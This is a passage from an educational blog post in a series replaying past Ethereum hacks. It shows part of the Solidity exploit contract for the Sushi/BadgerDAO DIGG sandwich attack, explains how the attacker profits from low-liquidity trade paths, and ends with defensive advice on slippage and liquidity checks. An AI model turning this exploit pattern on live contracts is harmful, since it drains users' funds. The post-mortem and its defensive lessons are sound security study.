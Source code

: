 ```solidity
        address(this),
        type(uint256).max
    );

    // trade otherToken -> wethBridgeToken -> WETH
    uint256 otherTokenBalance = otherToken.balanceOf(address(this));
    otherToken.approve(address(sushiRouter), otherTokenBalance);
    address[] memory path = new address[](3);
    path[0] = address(otherToken);
    path[1] = address(wethBridgeToken);
    path[2] = address(WETH);

    uint256[] memory swapAmounts =
        sushiRouter.swapExactTokensForTokens(
            otherTokenBalance,
            0,
            path,
            address(this),
            type(uint256).max
        );

    // convert WETH -> ETH
    WETH.withdraw(swapAmounts[2]);
    (bool success, ) = msg.sender.call{value: address(this).balance}("");
    require(success, "final transfer failed");
}
```

After receiving `DIGG`, we do a final reverse trade by converting `DIGG -> WBTC -> WETH`.
This nets the attacker a nice profit by trading in the higher liquidity `DIGG <> WBTC` pool.


The full test code is available [in this repo](https://github.com/MrToph/replaying-ethereum-hacks/blob/master/test/sushi-badger-digg.ts).

## Conclusion

The attack we've seen is quite common and also happened in [Yearn's v1 vaults](https://github.com/yearn/yearn-security/blob/master/disclosures/2021-02-04.md), even though it looks a lot more complex. The main differences are that the attacker had to use Curve pools and do several smaller trades to circumvent the slippage parameter set by the function.

When developing contracts that automatically convert tokens, it's important to check what trade paths are taken.
One should ensure that each pair on each trade path has enough liquidity to support the expected amount of tokens.
In addition, tight slippage parameters and/or a max conversion amount per function call can lead to these attacks becoming unprofitable for an attacker.

> This post is part of the [Replaying Ethereum Hacks series](/categories/replaying-eth)
